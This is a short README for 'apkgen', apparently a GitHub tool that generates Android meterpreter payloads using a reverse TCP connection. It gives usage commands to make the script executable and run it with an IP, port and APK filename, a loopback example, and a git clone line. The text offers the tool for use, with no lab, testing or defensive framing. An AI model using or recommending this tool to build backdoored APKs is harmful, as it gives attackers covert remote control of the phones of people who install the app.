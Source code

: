 # apkgen
Android meterpreter payload generator script using reverse tcp connection protocol
cd apkgen
chmod +x apkgen
./apkgen your_ip your_port filename.apk

ex:

./apkgen 127.0.0.1 8080 apkgen.apk

git clone http://github.com/rishijat0/apkgen.git
